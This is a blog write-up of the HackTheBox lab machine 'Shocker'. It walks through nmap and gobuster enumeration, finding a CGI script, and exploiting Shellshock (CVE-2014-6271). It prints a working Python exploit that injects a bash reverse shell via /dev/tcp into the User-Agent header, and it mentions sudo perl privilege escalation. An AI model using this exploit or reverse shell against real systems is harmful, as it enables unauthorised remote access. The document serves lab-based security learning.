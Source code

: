 ```yaml
---
layout: single
title: HackTheBox - Shocker Writeup
permalink: /hackthebox-shocker-writeup/
excerpt: "Shocker is a straightforward box from HacktheBox. It explores the shellshock vulnerability that can be used to gain an initial foothold. Then, to get the root shell, I must abuse the perl command with sudo."
classes: wide
header:
  teaser: "/assets/images/htb/shocker/Shocker.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - linux
  - infosec
  - easy-htb
  - writeup
tags:
  - CVE-2014-6271
  - gobuster
  - shellshock
  - sudo-perl
  - GTFOBins
  - rce
  - python
  - file-misconfiguration
  - cgi-bin
---
```


![hackthebox shocker title card](/assets/images/htb/shocker/Shocker.png)

# <font color="#9bffc8">Nmap</font>
Like always, I’m going to scan the IP Address by using [nmap](https://nmap.org/) but I’m going to scan the full port first. Then, I’m going to scan the only open ports.

```sql
nmap -p80,2222 -sCV -oN nmap/shocker 10.10.10.56

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The nmap scan result is completed. There are just `2` port opens which are port `80` and port `2222`. It's a bit odd to configure the `SSH` in another port besides the standard port `22`. However, based on the [OpenSSH](https://launchpad.net/ubuntu/+source/openssh/1:7.2p2-4ubuntu2.2) service banner, this is an Ubuntu (xenial) machine. Unfortunately, I can't do much with `SSH` since it's mostly secure hence the name `Secure Shell`. :)

# <font color="#9bffc8">Http: don't bug me!</font>
With that information in hand. I've navigated port `80` through my browser and I've been greeted with this page. It's just a funny image with text that says `"Don't Bug Me!"`. Based on the `index` page extension, it's an `html` file.

![](/assets/images/htb/shocker/dont-bug-me.png)

# <font color="#9bffc8">Gobuster</font>
So, I'm going to run [gobuster](https://github.com/OJ/gobuster) to enumerate more on this webserver. However, it's just a massive dead end for me. I can't find anything at all. Based on this machine name, which is `shocker` and I'm thinking somehow it's based on [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) vulnerability. Also, it has an `Apache` web server running and this vulnerability can occur in the [/cgi-bin/](https://en.wikipedia.org/wiki/Common_Gateway_Interface) directory. When I navigated to that directory in my browser, I instantly got `Forbidden` or `403` which means it existed.

![](/assets/images/htb/shocker/cgi-bin.png)

Now, I'm confused why [gobuster](https://github.com/OJ/gobuster) can't find it at all, and based on the wordlist I used, the `cgi-bin` is present in it. With closer inspection, I found out that it needs to be another "slash" `/` in the end. For example `/cgi-bin` vs `/cgi-bin/`. When it doesn't have `/` at the end, it goes straight to `404 Not Found`. Then, I'll try running the [gobuster](https://github.com/OJ/gobuster) again with tag `-f` for `Append / to each request` and it did manage to find the `/cgi-bin/` directory.

![](/assets/images/htb/shocker/gobuster-cgi-bin.png)

The best thing to do now is to enumerate more in that directory but this time I'm using the `-x` flag for looking up the extension with `.sh` and `.cgi` and I've got a hit with the `user.sh` file.

![](/assets/images/htb/shocker/gobuster-cgi-bin-user-sh.png)

# <font color="#9bffc8">Http: /Cgi-Bin/User.sh</font>
When I navigated to that file which is `user.sh` it automatically downloaded it into my machine. When I opened it up, it was `"Just an uptime test script"` and nothing too fancy about it. ;)

![](/assets/images/htb/shocker/read-the-file-user-sh.png)

# <font color="#9bffc8">Foothold: ShellShock</font>
So, I already have the file that I needed for the exploitation but I didn't know how to tinker with it. So, the same old me goes to my handsome and wise friend Mr.Google and asking about ShellShock's vulnerability. I ended up finding this [blog](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) post showcasing `"how to exploit shellshock manually"` also the given CVE for this vulnerability is [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/cve-2014-6271). I can inject some arbitrary bash command in the `User-Agent` but with some weird string inside it. Luckily, I manage to find this [answer](https://unix.stackexchange.com/a/157520) regard of that `string` (Kind of understand a bit) but I want to be "leet" today. So, I'm going to make a [python](https://www.python.org/) script to gain the initial foothold with [bash reverse shell](https://www.revshells.com/).

```python
#!/usr/bin/env python3
import argparse
import requests
import sys

parser = argparse.ArgumentParser()
parser.add_argument('-i', '--lhost', metavar='', required=True, help='listening ip')
parser.add_argument('-p', '--lport', metavar='', required=True, help='listening port')
args = parser.parse_args()

if __name__ == "__main__":
    try:
        payload = f"/bin/bash -i >& /dev/tcp/{args.lhost}/{args.lport} 0>&1"

        url = "http://10.10.10.56/cgi-bin/user.sh"
        agent = {'User-Agent':'() { :; }; echo ; echo ; '+ payload}
        req = requests.get(url, headers=agent)
    except KeyboardInterrupt:
        print('\n');sys.exit()
```

why not? ¯\\(0_0)/¯

# <font color="#9bffc8">PrivEsc: Perl</font>
I'm in as a `shelly` user and the very first thing I love to do is [upgrading my shell](https://note.shafiqaiman.com/misc/upgrade-reverse-shell#python) with python since this machine has python installed on it. Like always, I love to start with the simple `"check"` in the sudo permission with the `sudo -l` command. Shockingly, I can run `perl` with the sudo command without any authentication needed. So, I'm heading to the lovely [gtfobins](https://gtfobins.github.io/) that have a bunch of collection of Unix binaries that can be abused. Then, I'll try to run it, and BOOM!

![](/assets/images/htb/shocker/root.png)

VOILA